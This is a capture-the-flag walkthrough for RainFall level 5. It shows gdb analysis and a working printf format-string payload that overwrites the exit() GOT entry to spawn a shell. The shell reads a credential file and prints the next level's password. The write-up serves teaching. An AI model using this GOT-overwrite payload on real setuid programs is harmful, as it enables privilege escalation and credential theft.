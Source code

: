 # Level 5

## Vulnerability

Global Offset Table Exploit + printf string vulnerability

## Context

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ ./level5
hello
hello
```
We have a binary that prints input from the stdin.

## Solution

Let's take a look at the binary in gdb. <br/>
We can see here that ```level5``` makes a call to ```main()```, which makes a call to a function ```n()```. <br/>
There is also a function ```o()``` which is not called. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
```
Let's take a deeper look a ```n()```. <br/>
We can see two function calls in ```n()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. <br/>
The function then calls ```exit()```.
```
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
[...]
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
[...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
In ```o()```, we can see a call to ```system()```, which launches a new shell. 
```
(gdb) disas o
Dump of assembler code for function o:
[...]
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
Why are all these functions ```@plt```? <br/> <br/>
~ A little background: ~ <br/>
A ```PLT``` (or Procedure Linkage Table) is a special section in compiled programs which consists of many jump instructions to external  <br/>
functions / shared libraries (for example, libc functions). These jump instructions jump to the ```GOT``` (or Global Offset Table),  <br/>
which contains the actual function address. <br/>
The PLT is read-only, but the GOT can be written to. <br/>
The execution flow of the program can be controlled by overwriting one of the GOT's function addresses. <br/> <br/>
So... what's the plan? <br/>
We can leverage ```printf``` in a format string attack to replace the address of ```exit()``` with the address of ```o()```, <br/>
which will then call ```system``` to launch a new shell. <br/> <br/> 
Let's locate the addresses of ```exit()``` and ```o()```. <br/> 
```
(gdb) info functions
All defined functions:

[...]
0x080483d0  exit@plt
0x080484a4  o
```
Unfortunately, the real address of ```exit()``` is in the GOT. Let's looks there. 
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
So the address of ```exit()``` is 0x08049838, and the address of ```o()``` is 0x080484a4.<br/><br/>

Just like in level3, let's check our buffer position with a ```printf()``` string format exploit.
```
level5@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
We can see our buffer "AAAA" in the 4th position on the stack as 41414141. <br/>
So let's replace "AAAA" with the address of ```exit()``` (in little endian). <br/><br/>
The next step is to overwrite ```exit()``` by ```o()```, using the the ```%n``` modifier. <br/>
For the ```%n``` modifier, we need the number of bytes to write. <br/>
"0x080484a4" in decimal is "134513828" (minus the exit GOT address [4 bytes]). <br/><br/>
Here is what our string attack will look like:
```
"exit GOT address" + "134513828 - 4 bytes" + "%4$n"
python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' 
```
Let's try it out!
```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' ; cat -) | ./level5
[You will find are in an infinite print loop. Type anything and press "enter"]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Recreate Exploited Binary

As user level6, in /tmp, create and compile level5_source.c.
```
level6@RainFall:~$ cd /tmp
level6@RainFall:/tmp$ gcc level5_source.c -fno-stack-protector -Wno-format-security -o level5_source
```
Edit permissions including suid, then move the binary to home directory.
```
level6@RainFall:/tmp$ chmod u+s level5_source
level6@RainFall:/tmp$ chmod +wx ~; mv level5_source ~
```
Exit back to user level5, then run the binary. <br/>
Notes: 
- Our new address for ```exit()``` is located at 0x0804a014 (but we still print the address in little endian).
- Our new address for ```o()``` is located at 0x080484c4 => 134513860 (minus the exit GOT address [4 bytes])
```
level6@RainFall:/tmp$ exit
exit
level5@RainFall:~$ (python -c 'print "\x14\xa0\x04\x08" + "%134513856d%4$n"' ; cat -) | /home/user/level6/level5_source
cat /home/user/level6/.pass
```
